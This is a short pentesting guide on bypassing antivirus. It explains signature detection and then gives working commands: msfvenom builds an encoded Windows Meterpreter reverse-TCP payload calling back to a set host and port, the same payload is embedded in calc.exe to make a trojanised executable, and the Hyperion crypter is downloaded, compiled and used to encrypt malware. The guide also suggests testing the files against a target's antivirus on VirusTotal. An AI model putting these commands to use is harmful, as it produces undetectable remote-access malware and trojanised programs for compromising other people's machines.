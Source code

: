 # Bypassing antivirus

So first of all, what is a antivirus program and how does it work?

## How does it work?

Antivirus normally uses blacklisting as their methodology. They have a huge database full of signatures for different known malware. Then the antivirus just scans the disk and search for any of those signatures. 

## How do we bypass it?

So since there are many different antivirus and they all have different databases of signatures it is important for us to know what antivirus our target uses. Once we know that we can use virtustotal.com to upload our malicious files to see if that specific antivirus finds it. 

So what we need to do is to change the malware enough so that the signature changes and the antivirus is not able to identify the file as malicious.

There are a few different techniques for doing this.

### Encoding

We can encode our malware in different ways. This can be done with msfvenom. Notice how we set the `-e` flag here, and then use the `shikata_ga_nai` encoding. This is not that effective since antivirus-vendors have access to metasploit as well.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
```

### Embed in non-malicious file

Another way is to embed our payload in a non-malicious file.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e
x86/shikata_ga_nai -i 9 -x calc.exe -o
bad_calc.exe
```

### Encrypting the malware

In order to obfuscate our malware we can encrypt it, and thus radically changing the signature. One much mentioned tool for doing that is Hyperion. It is a windows binary but we can compile and run it from linux as well. This worked for me (october 2016)

```
wget https://github.com/nullsecuritynet/tools/raw/master/binary/hyperion/release/Hyperion-1.2.zip
unzip Hyperion-1.2.zip
i686-w64-mingw32-c++ Hyperion-1.2/Src/Crypter/*.cpp -o hyperion.exe
```

In Kali you have hyperion 1 included. However for it to work you have to run it from it's correct path. So go to `/usr/share/veil-evasion/tools/hyperion`

And run it like this

```
wine hyperion /path/to/file.exe encryptedfile.exe
```
